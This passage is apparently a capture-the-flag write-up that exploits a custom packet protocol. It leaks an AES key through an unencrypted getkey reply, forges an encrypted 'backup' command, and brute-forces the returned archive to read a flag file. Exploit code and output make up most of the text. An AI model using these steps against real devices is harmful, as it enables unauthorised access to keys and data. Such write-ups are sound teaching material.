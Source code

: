     pc = Packet(version=2, opcode=0x16, suboption=0x1e, data=b"G")
Where 0x16 is the opcode of getkey/setkey, `getkey` and `setkey` function by checking the first byte of the data - if it is `G`, it will run `getkey`, and if it is `S`, it will run `setkey`. `CHANGE_AES_KEY` is set to `no`, so set will not actually be allowed to change the key. Notably, the reply packet is _NOT_ encrypted.

Running it we get:

    Response:  Packet(version=2, opcode=22, suboption=30, len=41, unused=0, magic=22600, h=b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00', data=b'1234567812345678\x00')
    AES key:  b'1234567812345678'

We got the key, we can now construct a valid `backup` command:

    pkt = Packet(version=2, opcode=0x2b, suboption=0x29, data=b"backup")
    pkt.encrypt(key)
    s.send(pkt.to_bytes())
    resp = Packet.from_bytes(s.recv(4096))
    print("Backup:")
    print(resp.data.decode())


Executing it we get:

    Backup:
    Saving everything that matters!
    ss451sIMgDfkyd/WKre80oGFNiajVPYy7mLUM7gOO21Rdsn3i/RCThgfY/cZRlstAMrWzKgtxRr6
    9lejsr63OYiwexLLTgzy0q20KWOlVu7wO6yfn9y65KRQS5RYZojtG0G80srNEfv/HZZXTyBUKMD3
    G+t4cXDfROKfk3JV8QtEkTUerxYXuXbI0Bsx3EAEchL2CDABvZTg8B01aQg/QAl0EeEMQ7ID3vqO
    iTzCDyo=

Now we need to bruteforce the backup,  we decrypt the data using the AES cipher and attempts to unpad the result. The actual AES key is the MD5 of the first 4 bytes of the variable BACKUPAESKEY. The IV is hardcoded
in the binary and is "this_is_secretiv" This means that we can bruteforce the 2^32 possible key values.
If one starts with 0x8b1f (starting bytes of .tgz aka gzip signature), it will be a candidate and we can read its content with this code:

    def un_tar(tgz_file):
    	with tarfile.open(tgz_file, "r:gz") as tar:
    		file_list = tar.getnames()
    		for file_name in file_list:
    			file_info = tar.getmember(file_name)
    			if file_info.isfile():
    				with tar.extractfile(file_info) as file:
    					file_content = file.read()
    					print(f"Content of {file_name}:\n{file_content.decode('utf-8')}\n")

Running it we get:

    POSSIBLE CANDIDATE: 74656d70
    Content of etc/secret_flag:
    #This is not the real flag
    HEXACON{...}
    #only in prod
